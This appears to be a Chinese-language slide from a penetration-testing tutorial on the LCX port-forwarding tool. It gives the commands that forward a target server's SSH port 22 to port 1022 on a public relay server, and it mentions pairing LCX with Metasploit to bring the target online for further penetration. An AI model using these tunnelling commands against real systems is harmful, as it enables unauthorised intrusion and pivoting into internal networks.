

LCX
在公网服务器（211.211.211.211）上执行

在目标服务器（172.16.1.1）执行

这样我们就把目标服务器的172.16.1.1的22端口转发到啦公网服务器211.211.211.211的1022端口上。

我们还可以用lcx配个metasploit使用，通过配置直连和反弹通过lcx把流量转发，让目标服务器在我们本地上线，进一步进行渗透。
| ./lcx 51 1022 |
| --- |
| ./lcx -slave 211.211.211.211 51 172.16.1.1 22 |
| --- |